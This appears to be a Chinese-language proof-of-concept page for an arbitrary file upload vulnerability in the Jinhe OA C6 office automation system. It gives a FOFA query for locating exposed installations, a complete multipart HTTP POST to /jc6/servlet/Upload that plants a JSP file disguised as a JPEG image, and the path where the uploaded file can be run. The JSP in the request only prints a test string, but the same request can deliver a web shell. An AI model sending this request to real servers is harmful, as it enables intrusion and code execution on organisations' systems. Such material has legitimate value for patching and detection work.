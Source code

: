 ## 金和OA_jc6_Upload任意文件上传

金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。金和OA jc6/servlet/Upload接口存在任意文件上传漏洞。

## fofa
```
app="金和网络-金和OA"||body="/jc6/platform/sys/login"
```

## poc
```
POST /jc6/servlet/Upload?officeSaveFlag=0&dbimg=false&path=&setpath=/upload/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 197
Content-Type: multipart/form-data; boundary=ee055230808ca4602e92d0b7c4ecc63d

--ee055230808ca4602e92d0b7c4ecc63d
Content-Disposition: form-data; name="img"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("tteesstt1"); %>
--ee055230808ca4602e92d0b7c4ecc63d--
```
![66cafb6ff95136b967c3b922ceeb8eb6](../../images/91a0d8aa-f1c0-4da7-aada-ce8a48e8ffbe.png)

拼接上传路径 http://127.0.0.1/jc6/upload/8a87db028d0c1c8e018d0d8d2d5b1cd9.jsp
